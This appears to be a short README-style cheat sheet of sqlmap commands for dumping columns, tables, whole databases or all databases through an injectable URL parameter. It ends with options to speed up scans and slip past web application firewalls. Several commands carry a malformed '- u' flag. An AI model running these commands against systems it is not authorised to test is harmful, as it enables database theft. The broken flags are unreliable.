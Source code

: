 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>
 **Parameters**      **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
 **Optimised Url**    **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

